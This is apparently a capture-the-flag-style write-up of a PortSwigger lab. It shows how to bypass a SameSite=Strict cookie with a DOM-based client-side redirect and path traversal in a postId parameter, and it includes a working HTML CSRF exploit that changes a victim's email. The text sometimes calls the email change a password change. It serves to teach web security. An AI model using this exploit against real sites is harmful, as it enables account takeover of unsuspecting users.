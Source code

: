 # PortSwigger: [`SameSite=Strict` Bypass via Client-side Redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

The target service sets a `SameSite=Strict` cookie:

```http
Set-Cookie: session=HZGZUXaEL6UHhu9sVMD3V3MCaJTIjWuW; Secure; HttpOnly; SameSite=Strict
```

But the password change endpoint requires no CSRF protection:

```http
POST /my-account/change-email HTTP/2
Host: 0acc008003baf22280cd3fa3003a00ef.web-security-academy.net
Cookie: session=HZGZUXaEL6UHhu9sVMD3V3MCaJTIjWuW
Origin: https://LAB_ID.web-security-academy.net
…

email=x%40x.x&submit=1
```

A `SameSite=Strict` cookie will only be sent if the request _originates_ from the same site that set the cookie. It won't be sent with any requests initiated by third-party websites (e.g., `exploit-server.net`.) So I need to find another way to initiate the request such that the cookie can be passed to validate the transaction.

There's a DOM-based redirect after a user posts a comment on a blog post:

![](_/psa-samesite-strict-bypass-via-client-side-redirect-20250604-1.png)

The endpoint for that confirmation page is `/post/comment/confirmation?postId=6`, and the value passed to `postId` is unsanitized. In that example it just redirects to `/post/6`.

Here is the JavaScript that performs the redirection:

```javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

Another lucky break is that the `/my-account-change-email` endpoint access GET requests in addition to POST requests, so a simple `document.location` redirect in an exploit delivered to the victim is sufficient to change the password:

```text
<html>
  <body>
    <script>
      document.location = "https://LAB_ID.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=p@w.n%26submit=1"
    </script>
  </body>
</html>
```

Note that `submit=1` is also required for the password-change request. This is why I used `%26` instead of `&` to include the second parameter. If I hadn't, it would have been considered an additional parameter for the `/post/comment/confirmation` endpoint, and not the `/my-account/change-email` endpoint that the victim is redirected to.